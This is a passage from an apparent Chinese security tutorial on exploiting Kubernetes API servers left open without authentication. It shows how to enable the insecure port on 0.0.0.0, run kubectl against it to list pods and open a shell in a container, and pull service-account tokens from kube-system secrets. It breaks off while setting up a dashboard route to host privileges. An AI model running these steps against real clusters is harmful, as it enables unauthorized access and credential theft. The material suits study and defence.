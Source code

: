 这里设置为0表示关闭，甚至在高版本的k8s中，直接将--insecure-port这个配置删除了，需要手动添加  
  
这里将修改为8080，并添加配置  
```
- --insecure-port=8080- --insecure-bind-address=0.0.0.0systemctl restart kubelet
```  
  
上述就是打开8080端口的方法  
  
![2b15b7ccbae2d924f15778d722b7042f.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFEQoicDkiby7afp5lmH7hyUsKfibgPtH4csW4hgP8g3HoVicCSTKAWYSfNK69icPbfic1oKUsXhDMJWqzXuA/640?wx_fmt=png&from=appmsg "")  
  
  
![c86dacdfadb8ca473eaf01fe083cb08c.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFEQoicDkiby7afp5lmH7hyUsKfBv8cxRRegibRFqNclBGypdYcypne1XCLQlE6MibAfu3wk22UZL1ZClOw/640?wx_fmt=png&from=appmsg "")  
### 2、执行命令-通过kubectl -s命令  
```
kubectl -s ip:8080 get node
```  
  
ps: 如果使用minikube搭建这里可能是随机的大端口  
  
![84258e5af2b31d38d0be47bb6586a9e5.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFEQoicDkiby7afp5lmH7hyUsKf9XlWn56BYsLHtNGswpaFmghwS28cd42h2OYQfuQaicZXcGkjcaqb9Cg/640?wx_fmt=png&from=appmsg "")  
  
  
获取Pods  
```
kubectl -s 127.0.0.1:8080 get pods
```  
  
![07ef43516739c668c57b7584440e4a05.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFEQoicDkiby7afp5lmH7hyUsKfGPmFQbt6UIKibegwwiajXmsUtDnC3iaAb2d6fNFdEoia8zskzbvp2iaWibWA/640?wx_fmt=png&from=appmsg "")  
  
![910475d876816175ba00f4b5cfa50094.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFEQoicDkiby7afp5lmH7hyUsKfkoTknibN0vdEhhlyhNfVjOhwdTwGubUDwpOrP6nJl8y3Y8Qga6ZibTLQ/640?wx_fmt=png&from=appmsg "")  
  
执行命令  
```
kubectl -s 127.0.0.1:8080 --namespace=default exec -it nginxfromuzju-59595f6ffc-p8xvk bash
```  
  
![98c0e7e91838c2c562a3835d53f2a528.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFEQoicDkiby7afp5lmH7hyUsKfTZkDNnY3Ua0Lja9nzNK0NNQwQms0vkNV2bL9XQD1qaYkf73SG8iaqGw/640?wx_fmt=png&from=appmsg "")  
  
Tips: 在高版本的k8s中，这种方法是不行的，连不上去  
### 3、获取service-account-token  
  
可以通过访问api来获取token  
```
/api/v1/namespaces/kube-system/secrets/
```  
  
![ecac30d83cabd41b0469f76b2d5c8cd0.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFEQoicDkiby7afp5lmH7hyUsKfSfq1pwUib3YgJNyXTEUumvR2HTS7aJU5LWvOUZU3G7PpDteWVFicQIgw/640?wx_fmt=png&from=appmsg "")  
### 3、获取宿主机权限-通过k8s dashboard，创建特权Pods  
  
为什么会出现这个问题：因为在启动dashborad的时候，管理员为了方便，修改了配置，跳过了登录  
  
安装dashborad  
```
wget https://raw.githubusercontent.com/kubernetes/dashboard/v2.2.0/aio/deploy/recommended.yamlvim recommended.yam
```  
  
